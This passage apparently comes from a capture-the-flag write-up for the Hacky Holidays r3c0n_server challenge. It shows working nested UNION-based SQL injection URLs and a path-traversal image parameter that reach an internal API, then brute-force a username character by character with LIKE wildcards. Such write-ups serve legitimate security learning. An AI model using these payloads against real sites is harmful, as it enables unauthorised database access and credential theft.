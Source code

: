 https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9

Base64decoded

`{"image":"r3c0n_server_4fdk59\/uploads\/..\/api\/","auth":"05a7e708a5f3da76506023047628829d"}`

**Response**

Invalid content - type detected.

+ In the SQL injection, in the 3rd column inside SQL injection for column album, we successfully generate a valid hash for ../api/.

+ In the above response, for api, we get the response as the invalid content type detected. So, it means the server was accepting only `content-type image` and since the above /api parameter was of html type, the response was 200 but it was invalid content-type detected.

+ Based on that, I've tried to brute-force the api parameter, thinking about the common path.
+ In the workflow of the application, as we require username and password, thus common api paths can be such as api/config, api/users, api/user, api/username, etc.

+ In the above method, I tried api/config and load the picture in the response on firefox and it returned with:

```Expected HTTP status 200, Received: 404```

{F1139834}

+ Thus as per the response says, it was returned with 404. Finally, after guessing the api as api/user on the above SQL payload as:

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%20%2212%27%20UNION%20ALL%20SELECT%201,1,\%22../api/user/\%22--%20-%22,NULL,%22aaa%27%22--%20-


**Response**

{F1139841}

`Invalid content type detected`

+ As api/user was valid, that means we've to find username and password out of this. In SQL database, when we try to find any character we use the % symbol in the back-end query.

`Select * from users
where username like 'a%' 
`

+ At this concept, I tried to find the username char by char on the above api/user . thus, our final exploit will be

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%20%2212%27%20UNION%20ALL%20SELECT%201,1,\%22../api/user?username=a%\%22--%20-%22,NULL,%22aaa%27%22--%20-

+ If the char will be valid for api/user?username=a%, it'll return with "invalid content type" otherwise "Expected HTTP status 200, Received: 204".

+ So, after bruteforcing for about 20 mins char by char, got the first char as "g " on username, returned with "invalid content-type". 
For the second char, it'll be api/user?username=gr%. After final exploitation for char, got the username as grinchadmin.

**Request**

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%20%2212%27%20UNION%20ALL%20SELECT%201,1,\%22../api/user?username=grinchadmin%\%22--%20-%22,NULL,%22aaa%27%22--%20-
```
